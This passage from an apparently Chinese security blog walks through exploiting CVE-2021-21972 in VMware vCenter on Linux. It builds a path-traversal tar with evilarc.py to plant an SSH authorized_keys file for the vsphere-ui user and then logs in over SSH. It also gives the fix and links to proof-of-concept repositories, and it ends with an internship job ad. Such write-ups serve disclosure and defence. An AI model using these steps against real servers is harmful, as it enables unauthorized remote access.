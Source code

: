 ![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JWaHIa5q0JgJHh06HuNjBsYFPLicufU6wRiacPfna84NCYqGJ8S0tqvKCAulADtrMB26ibXz3ggfLN1Q/640?wx_fmt=png)

**3、Linux 上获得 RCE**

使用 vsphere-ui 用户的权限上传任意文件。如果我们将公钥上传到该用户的主目录，并尝试使用私钥通过 SSH 连接到服务器.  
生成公钥对  
ssh-keygen -t rsa

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JWaHIa5q0JgJHh06HuNjBsYSpC3OjvIWC11UjEPIDHEbYD4PrBicO7pc3eDiaM9bYpyafGwG7zWt9Gw/640?wx_fmt=png)

**使用生成的公共密钥创建. tar**

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JWaHIa5q0JgJHh06HuNjBsYOyib834eU2qx5jmbVesEd2epSBgNd0yptzjlsIULrLEu2UoFiajENF6A/640?wx_fmt=png)

打包 tar:

```
python evilarc.py -d 5 -p 'home/vsphere-ui/.ssh' -o unix -f linexpl.tar authorized_keys
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JWaHIa5q0JgJHh06HuNjBsYlDlkHTzicfSD9zn96SojibooJVW6ANdN5hTiaEujWgxlmTicmu4gCgvz8Q/640?wx_fmt=png)

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JWaHIa5q0JgJHh06HuNjBsYwsE2nfYAJrBNrqB57QeE5UcCKhQg2DOpsDicvz3sic1u7LHpkAVSCLBA/640?wx_fmt=png)

**ssh vsphere-ui@Your IP**

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JWaHIa5q0JgJHh06HuNjBsYBia6ALcvbxkgkfykZib9Lliapvh9EstlmQ1EY5D0rbQfVvMbm1LFu2qWA/640?wx_fmt=png)

POC 使用：

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JWaHIa5q0JgJHh06HuNjBsY4SicjmQlvsNel02hTCYHJGQGUW1Q9MgUangtiarYt0LH28honLoubiczA/640?wx_fmt=png)

_**No.5  
**_

_**修复方法**_

按照官方提示，关闭插件

https://kb.vmware.com/s/article/82374

_**No.6  
**_

_**Reference**_

```
分析：https://swarm.ptsecurity.com/unauth-rce-vmware/
https://mp.weixin.qq.com/s/NWVe4jxpWMqQNHIAmYHI6g
POC:https://github.com/QmF0c3UK/CVE-2021-21972-vCenter-6.5-7.0-RCE-POC
Exp payload:https://github.com/NS-Sp4ce/CVE-2021-21972
```

_**招聘**_

安恒雷神众测 SRC 运营（实习生）  
————————  
【职责描述】  
1.  负责 SRC 的微博、微信公众号等线上新媒体的运营工作，保持用户活跃度，提高站点访问量；  
2.  负责白帽子提交漏洞的漏洞审核、Rank 评级、漏洞修复处理等相关沟通工作，促进审核人员与白帽子之间友好协作沟通；  
3.  参与策划、组织和落实针对白帽子的线下活动，如沙龙、发布会、技术交流论坛等；  
4.  积极参与雷神众测的品牌推广工作，协助技术人员输出优质的技术文章；  
5.  积极参与公司媒体、行业内相关媒体及其他市场资源的工作沟通工作。  
【任职要求】   
 1.  责任心强，性格活泼，具备良好的人际交往能力；  
 2.  对网络安全感兴趣，对行业有基本了解；  
 3.  良好的文案写作能力和活动组织协调能力。
